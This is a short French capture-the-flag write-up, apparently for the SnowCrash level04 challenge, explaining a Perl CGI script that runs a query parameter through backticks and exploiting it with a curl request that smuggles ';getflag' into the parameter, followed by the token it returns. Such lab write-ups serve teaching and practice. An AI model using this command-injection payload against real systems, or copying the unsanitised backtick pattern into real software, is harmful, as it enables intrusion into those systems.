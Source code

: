 Un fichier .perl est présent

Si on regarde son contenu il y a : 
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Ce qui nous indique que sur l'endpoint localhost:4747 il y a une fonction **x** qui éxécuté un **echo** du paramètre *x*.

Donc en passant le bon argument on peut éxécuter directement la commande getflag :
```bash
curl http://localhost:4747/?x=FoundIt%3Bgetflag
```

Il écrira FoundIt puis grâce au ; (%3B) il éxécutera la commande suivante. (*getflag*)

```bash
level04@SnowCrash:~$ curl http://localhost:4747/?x=FoundIt%3Bgetflag
FoundIt
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
